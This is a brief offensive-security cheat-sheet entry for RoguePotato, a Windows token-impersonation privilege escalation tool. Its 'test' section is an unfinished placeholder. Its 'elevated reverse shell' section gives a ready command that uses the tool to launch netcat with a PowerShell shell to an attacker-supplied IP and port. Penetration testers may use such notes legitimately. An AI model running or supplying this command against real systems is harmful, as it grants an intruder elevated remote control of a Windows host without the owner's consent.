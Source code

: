 # roguepotato

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN


## test
https://github.com/antonioCoco/RoguePotato
```cmd
todo
```

## elevated reverse shell
https://github.com/antonioCoco/RoguePotato
```cmd
.\RoguePotato.exe -r <ip> -e "<nc_exe_path> <ip> <port> -e powershell" -l 9999
```


